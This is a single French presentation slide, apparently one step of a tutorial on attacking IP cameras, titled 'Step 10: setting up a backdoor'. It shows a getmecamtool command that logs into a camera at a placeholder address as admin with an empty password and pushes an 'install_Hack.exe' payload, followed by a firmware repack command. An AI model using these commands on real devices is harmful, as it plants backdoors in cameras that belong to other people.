

# Etape 10 Mise en place d’une Backdoor

Getmecamtool :
root@debian:/#sudo env PATH=$PATH:$(pwd)/../build/bin ./getmecamtool -a X.X.X.X:80 -u admin -p '' -c host_file -f /home/getmecamtool/misc/install_Hack.exe -s ../../fwlib
Commande rePack du binaire :
root@debian:/tmp/getmecamtool/build/bin# ./syspack
16